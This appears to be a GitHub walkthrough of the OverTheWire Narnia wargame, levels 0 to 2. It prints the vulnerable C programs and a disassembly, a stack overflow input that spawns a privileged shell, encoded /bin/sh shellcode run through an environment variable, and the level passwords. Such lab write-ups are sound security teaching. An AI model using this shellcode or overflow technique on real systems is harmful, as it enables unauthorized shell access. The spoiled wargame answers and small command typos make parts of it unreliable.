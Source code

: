 
# OverTheWire

OverTheWire's challenges walkthrogh.

Table of contents:
1. [Narnia](#Narnia)

## Narnia
### level 0->1
We can connect using secure 
shell to the server with narnia0 as the 
user and narnia0 as the password. After we logged 
in we can see two files narnia0 and narnia0.c .

*narnia0.c*
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    return 0;
}
```
From the code we can see that there is buffer
that gets from the standard input 24 bytes while
the buffer is only contains 20 bytes of space. before
that buffer we can see that the program declered variable
that contains 4 bytes so on the stack we can overwrite
this variable by send to the standard input 24 bytes.
Important thing we need to notice is that the scanf
function takes string and we need to change 0x41414141 to 0xdeadbeed
so we need to provide the standard input the string
presentation of 0xdeadbeef in hex. 

We can do it by write in the bash:
```
echo -e '\xef\xbe\xad\xde'
```
So the exploit will be:
```
(echo -e 'AAAABBBBCCCCEEEEFFFF\xef\xbe\xad\xde'; cat;) | ./narnia0
```
The password for the next level is: eaa6AjYMBB

### level 1->2

*narnia1.c*
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
If we take a look at the source code we can see that first we check if the env var called "EGG" is exist on the machine if it is not we print something, if it is we can see that we take the string that the "EGG" env contains, put it in ret pointer and trying to execute it.

Lets look at the assembly for a sec to understand how it executes the string that EGG contains.
```asm
Dump of assembler code for function main:
   0x08049196 <+0>:     push   %ebp
   0x08049197 <+1>:     mov    %esp,%ebp
   0x08049199 <+3>:     sub    $0x4,%esp
   0x0804919c <+6>:     push   $0x804a008
   0x080491a1 <+11>:    call   0x8049050 <getenv@plt>
   0x080491a6 <+16>:    add    $0x4,%esp
   0x080491a9 <+19>:    test   %eax,%eax
   0x080491ab <+21>:    jne    0x80491c1 <main+43>
   0x080491ad <+23>:    push   $0x804a00c
   0x080491b2 <+28>:    call   0x8049060 <puts@plt>
   0x080491b7 <+33>:    add    $0x4,%esp
   0x080491ba <+36>:    push   $0x1
   0x080491bc <+38>:    call   0x8049070 <exit@plt>
   0x080491c1 <+43>:    push   $0x804a041
   0x080491c6 <+48>:    call   0x8049060 <puts@plt>
   0x080491cb <+53>:    add    $0x4,%esp
   0x080491ce <+56>:    push   $0x804a008
   0x080491d3 <+61>:    call   0x8049050 <getenv@plt>
   0x080491d8 <+66>:    add    $0x4,%esp
   0x080491db <+69>:    mov    %eax,-0x4(%ebp)
   0x080491de <+72>:    mov    -0x4(%ebp),%eax
   0x080491e1 <+75>:    call   *%eax
   0x080491e3 <+77>:    mov    $0x0,%eax
   0x080491e8 <+82>:    leave  
   0x080491e9 <+83>:    ret    
End of assembler dump.
```
The intresting lines are 61-77 we can clearly see that it calls getenv(), after that it makes space on the stack and finally calls the function that eax points to(getenv() returns a pointer to a string).
So all we need to to is to put in EGG a shellcode that execute "/bin/sh".
after I have tried couple of shellcodes shellcodes this one worked: "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81"

The final exploit will be:
```
export EGG = $(echo -e "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81")
```
```
./narnia1
```
The password for the next level is: Zzb6MIyceT










